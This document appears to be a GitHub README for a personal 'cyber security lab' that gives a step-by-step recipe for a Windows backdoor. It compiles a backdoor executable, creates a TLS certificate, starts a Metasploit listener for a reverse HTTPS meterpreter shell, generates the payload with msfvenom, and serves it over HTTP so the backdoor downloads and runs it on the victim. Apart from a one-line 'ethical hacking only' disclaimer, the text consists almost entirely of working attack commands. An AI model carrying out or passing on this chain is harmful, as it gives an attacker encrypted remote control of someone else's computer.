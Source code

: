 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

In this example we will use a Kali Linux 2023.2 and windows 10

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
    
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listner

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) backDoorTest.exe
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File )
 
